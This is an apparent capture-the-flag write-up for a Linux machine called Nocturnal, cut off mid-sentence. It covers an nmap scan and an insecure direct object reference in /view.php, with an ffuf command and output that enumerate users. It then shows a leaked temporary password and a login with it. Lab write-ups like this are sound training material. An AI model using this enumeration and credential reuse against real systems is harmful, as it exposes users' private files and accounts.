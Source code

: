 A classic Linux CTF focusing on web enumeration/exploitation

# Enumeration
## Nmap
after trying out some ports I made this scan
```bash
$ nmap -sC -sV 10.10.11.64 -p22,80,443
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-15 14:55 CEST
Nmap scan report for nocturnal.htb (10.10.11.64)
Host is up (0.070s latency).

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp  open   http    nginx 1.18.0 (Ubuntu)
|_http-title: Welcome to Nocturnal
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp closed https
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Adding Vhost
when we try to access the page we get 302
```bash
$ curl 10.10.11.64 -v
..Snip..
< HTTP/1.1 302 Moved Temporarily
< Server: nginx/1.18.0 (Ubuntu)
< Date: Sun, 15 Jun 2025 12:49:46 GMT
< Content-Type: text/html
< Content-Length: 154
< Connection: keep-alive
< Location: http://nocturnal.htb/
```

let's go ahead and add the domain to our `/etc/hosts` file
```bash
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

## HTTP Server
after visiting http://nocturnal.htb/ we get greeted with a web app for storing documents. Let's have a closer look.
- Possible SQLi for `/login.php` or `/register.php` *but skipped testing for now.*
- upon logging in we get redirected to `/dashboard.php` where we can upload files
	did some testing for file Upload attacks but the files don't seem to get executed. 
- While trying to find an file Upload attack I found `/view.php` which had a few interesting Parameters
### `/view.php` 
on the dashboard we can access uploaded files via a link to `/view.php?username=porotscho&file=document.odt` which let's us Download the file *so no code execution for now ):* 
But when we refer to file that doesn't exist we can list our files.
![[Screenshot 2025-06-15 153746.png]]
Maybe this skips authentication? Let's make another account and see if we can see his files

Logged in as "porotscho1" we can make a request to `/view.php` with the username parameter set to "porotscho"
![[Screenshot 2025-06-15 153746 1.png]]

Awesome now that we have a PoC we can see if there are more users on the system

```bash
$ ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u "http://nocturnal.htb/view.php?username=FUZZ&file=.pdf" -b "PHPSESSID=ve8i9dq6npjbjobi3epjlvl7ks" -fs 2985

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=.pdf
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Cookie: PHPSESSID=ve8i9dq6npjbjobi3epjlvl7ks
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2985
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 26ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 30ms]
```

In Amanda's files I found a file called privacy.odt the contents have an important clue for us

> [!privacy.odt]
> Dear Amanda,
> 
> Nocturnal has set the following temporary password for you: **arHkG7HAI68X8s1J**. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
> The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us. 
> Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.
>
> Yours sincerely, 
> Nocturnal's IT team

Awesome now we can login as Amanda! We should also note that the password has been set for all of her services maybe that could be Important later? 

After logging Into her account I got access to `/admin.php` which was a true gold mine because we can look at source code and 
after looking at the source code of `/admin.php` 